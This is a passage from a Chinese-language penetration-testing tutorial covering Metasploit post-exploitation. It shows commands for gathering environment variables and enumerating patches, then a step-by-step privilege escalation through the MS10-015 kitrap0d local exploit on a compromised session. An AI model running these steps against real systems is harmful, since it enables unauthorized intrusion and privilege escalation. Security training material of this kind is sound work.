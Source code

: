 ### 4.1.3.**用户环境变量**

```
命令：run post/multi/gather/env
```

![img](assets/wps30-1690339780493-28.jpg) 

## 4.2.**提权**

一般在把木马放入靶机的时候，通常启动都并非是管理员启动，需要对其进行提权，对于提权这一块不太熟悉这里，先放一些网上的方式。

### 4.2.1.**本地提权**

搜集补丁信息，寻找可利用exploits提权。

```
命令：

run post/windows/gather/enum_patches  #查看补丁信息

background

search MS10-015          #利用未打补丁的模块即可

use exploit/windows/local/ms10_015_kitrap0d

set session 8            #选择目标

run                 #执行攻击
```



### 4.2.2.**getsystem提权**
